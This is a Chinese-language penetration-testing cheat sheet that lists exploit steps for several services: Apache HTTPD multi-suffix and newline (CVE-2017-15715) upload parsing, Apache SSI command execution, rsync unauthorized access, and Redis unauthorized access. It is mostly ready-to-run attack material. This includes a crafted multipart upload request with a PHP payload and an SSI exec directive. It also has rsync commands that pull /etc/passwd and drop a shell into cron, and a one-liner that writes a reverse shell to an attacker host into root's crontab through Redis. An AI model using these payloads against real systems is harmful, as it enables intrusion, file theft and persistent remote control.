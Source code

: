 ### Apache漏洞
> **Apache相关漏洞概述** 

#### Apache_HTTPD_多后缀解析漏洞
```
条件：httpd.conf中配置如下：AddHandler application/x-httpd-php .php

那就可以通过上传文件名为xxx.php.jpg或xxx.php.jpeg的文件进行getshell

```
#### Apache_HTTPD_换行解析漏洞
```
条件：2.4.0~2.4.29版本（CVE-2017-15715），以hex形式在数据包中的xxx.php后添加0a，放包后浏览器访问 xxx.php%0a 进行getshell


上传的数据包：
------WebKitFormBoundary38LloOXE0KEPGEGk
Content-Disposition: form-data; name="file"; filename="1.jpg"
Content-Type: application/octet-stream

<?php
phpinfo();  
?>
------WebKitFormBoundary38LloOXE0KEPGEGk
Content-Disposition: form-data; name="name"

xxx.php

------WebKitFormBoundary38LloOXE0KEPGEGk--

```
#### Apache_SSI_远程命令执行漏洞
```
条件：服务器开启了SSI与CGI支持，那么可以上传一个 xxx.shtml 文件来执行任意命令

xxx.shtml内容：
<!--#exec cmd="whoami" -->

上传xxx.shtml完成后，直接浏览器访问 xxx.shtml 即可执行whoami命令
```

### rsync_未授权访问漏洞
```
查看远程tarket-ip的模块名列表:
rsync rsync://tarket-ip:873/

列出path模块下的文件：
rsync rsync://tarket-ip:873/path/

下载任意文件到本地 ./ 下：
rsync -av rsync://tarket-ip:873/path/etc/passwd ./

上传任意文件：
rsync -av shell rsync://tarket-ip:873/path/etc/cron.d/shell
```
### redis_未授权访问漏洞
```
一行命令计划任务反弹shell：
(sleep 1;echo "info";sleep 2;echo "set x \"\n* * * * * bash -i >& /dev/tcp/vps_ip/8888 0>&1\n\"";sleep 1;echo "config get dir";sleep 2;echo "config get dbfilename";sleep 2;echo "config set dir /var/spool/cron";sleep 1;echo "config set dbfilename root";sleep 1;echo "save";sleep 1;echo "exit")|telnet target 6379

```
